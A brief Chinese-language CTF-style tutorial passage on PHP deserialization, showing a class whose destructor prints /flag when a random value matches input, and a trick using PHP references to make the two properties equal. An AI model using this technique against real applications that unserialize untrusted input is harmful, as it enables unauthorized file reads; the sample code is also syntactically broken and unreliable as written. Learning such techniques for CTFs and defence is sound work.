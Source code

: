 ## 构造指针
在我们的 php 反序列化中，我们可能会碰到下面的一类问题，我们需要让我们的某一个可以复制的元素等于一个随机的不可预测的元素，这一步，我们就需要通过我们的序列化中的引用来实现。例如：
```php
class{
	public $correct='';
	public $input='';
	public function __destruct(){
		try{
			$this->correct=base64_encode(uniqid());
			if($this->correct===$this->input){
				echo file_get_contents("/flag");
			}
		}
	}
}
```

这个时候，我们就需要构造我们的指针, 引用如下：
```
class Buu{
	$this->input;
	$this->correct;
}
$b=new Buu;
$b->input=&$b->correct;
```

